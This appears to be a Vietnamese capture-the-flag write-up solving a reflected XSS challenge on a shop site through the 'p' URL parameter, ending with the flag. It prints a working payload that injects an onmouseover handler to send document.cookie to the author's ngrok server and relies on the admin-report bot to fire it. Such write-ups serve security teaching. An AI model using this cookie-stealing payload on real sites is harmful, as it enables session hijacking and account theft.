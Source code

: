 # XSS - Reflected
## Solution

Đầu tiên khi vào website challenge thì ta thấy đây là một trang bán hàng với nhiều sản phẩm ta có thể lựa chọn.

![image](https://user-images.githubusercontent.com/86184794/160854756-2a911f4a-c30d-41c7-b26f-e8931a20d2a2.png)

Em chọn bất kỳ một sản phẩm thì thấy trên url của nó có chứa tham số p.

![image](https://user-images.githubusercontent.com/86184794/160856197-c8bb8240-a216-4e2b-8d85-2154bd5f33e0.png)

Ý tưởng là em có thể tận dụng tham số p này để khai thác challenge này được.

![image](https://user-images.githubusercontent.com/86184794/160856376-273c3d67-d1dd-4490-8a25-da2d7c58890f.png)

Trong DOM Element em thấy các sản phẩm đều có thuộc tính href với nội dung là tham số p ở trên nên em sẽ khai thác đường link này bằng cách thay đổi đường link trở đến server ảo của em đã tạo bên máy kali.

![image](https://user-images.githubusercontent.com/86184794/160859347-da86c9a6-15eb-4e34-891c-b1c58497a0da.png)

Vì đường link này bị format nên các kí tự đặc biệt như () + - * / sẽ bị lượt bỏ nên em sử dụng document.location và concat để nối chuỗi để tránh các kị tự đó.

Nhưng khi click vào đường link vẫn không lấy được cookie.

![image](https://user-images.githubusercontent.com/86184794/160863558-00414abf-6479-4a41-8ec4-4fd86d9325a7.png)

Em thấy trên url thì giá trị biến p chỉ lưu giá trị binh nên cookie nó sẽ không trả về server của chúng ta. Muốn cho nó trả về thì giá trị của biến p phải lưu luôn cái chuỗi này.
```
 hacking' onmouseover='document.location="http://7fe9-118-32-228-61.ngrok.io?cookie=".concat(document.cookie);
```
À vậy thì em sẽ không sửa trong DOM Element nữa em sẽ sửa trên đường dẫn rồi cho chạy thử.

![image](https://user-images.githubusercontent.com/86184794/160865182-ebdebc14-1da7-4835-9a10-d995b6eab43a.png)

Nhưng vẫn không lấy được cookie vì request này không được gửi đến server. Để gửi đến server nữa thì chúng ta phải click vào report to the administrator

![image](https://user-images.githubusercontent.com/86184794/160867444-20f9e61e-550e-4d3e-869d-f74e902414cc.png)

FLag: r3fL3ct3D_XsS_fTw
